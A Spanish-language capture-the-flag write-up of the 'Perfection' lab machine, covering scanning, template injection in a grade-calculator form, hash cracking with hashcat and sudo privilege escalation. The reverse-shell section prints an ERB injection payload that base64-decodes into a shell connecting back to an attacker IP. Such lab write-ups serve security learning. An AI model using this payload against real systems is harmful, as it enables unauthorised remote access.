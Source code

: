 ```yaml
---
tags:
  - Perfection
aliases: []
---
```

# Perfection
## Etapa de escaneo
Se realizo un escaneo básico al sistema para detectar rápidamente lo necesario

![[Pasted image 20240509220841.png]]

Observamos que tenemos el puerto 80 y 22 abiertos, intuimos que la maquina sera entonces todo desde web.

---
## Etapa de exploración web
Tras haber investigado un poco, hay una sección con varios inputs que permiten enviar datos al servidor con un pequeño backend que realiza cálculos de calificaciones ponderadas.

![[Pasted image 20240509233046.png]]

con burpsuite podemos capturar los datos enviados para ver su comportamiento, de aquí decidimos investigar más por Internet, logrando encontrar unos métodos de entrada de datos para la tabla en cuestión: ![[Research#^d1dd5b]]
lo que se puede intentar hacer un ping desde el servidor a una maquina receptora, por lo que decidimos hacerlo con: ![[Research#^a79f05]]
![[Pasted image 20240509235106.png]]

Una ves que comprobamos que hay ping, podemos proceder a realizar una conexión remota.

---
## Etapa de reverShell
Debido a que no podemos pedirle al sistema de forma "directa" que nos de una conexión remota desde el input, deberemos codearlo a "url" para que pueda ingresar sin problemas y seguidamente decodearse en el sistema, a continuación muestro el codeo de mi revershell con la herramienta [[Maquinas/Perfection/Research|hURL]]:

![[Pasted image 20240510000020.png]]

Una ves que tengamos todo listo, solo preparamos el ataque completo para agregarlo al campo en burpsuite:

~~~
<% system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx | base64 -d | bash"); %>
~~~

![[Pasted image 20240510000821.png]]

y listo, estamos dentro.

---
## Etapa de exploración del sistema
Tras haber penetrado al sistema de manera superficial, ahora deberemos buscar la forma de escalar privilegios, pero antes, notamos algunas cosillas dentro de los directorios algo interesantes, como hash's:

![[Pasted image 20240510001555.png]]

Esto claramente nos da indicios de poder acceder al sistema con un usuario, por lo que deberemos deshashear el hash.

---
## Etapa de deshasheo
tenemos el hash, pero ahora que?
deberemos buscar la forma de decodear ese hash, y la forma más sencilla sera con hashcat, crearemos un archivo el cual contendra el hash encontrado en el sistema:

![[Pasted image 20240510003015.png]]

y con este archivo, usar hashcat:

![[Pasted image 20240510003143.png]]

con esto obtendremos la contraseña en texto plano y lograr acceder al sistema con un usuario.

![[Pasted image 20240510004613.png]]

---
## Etapa de escalada de privilegios
Revisamos si podemos acceder con la contraseña del usuario normal al usuario privilegiado, usando sudo -l

![[Pasted image 20240510004829.png]]

y listo, tenemos acceso al usuario root.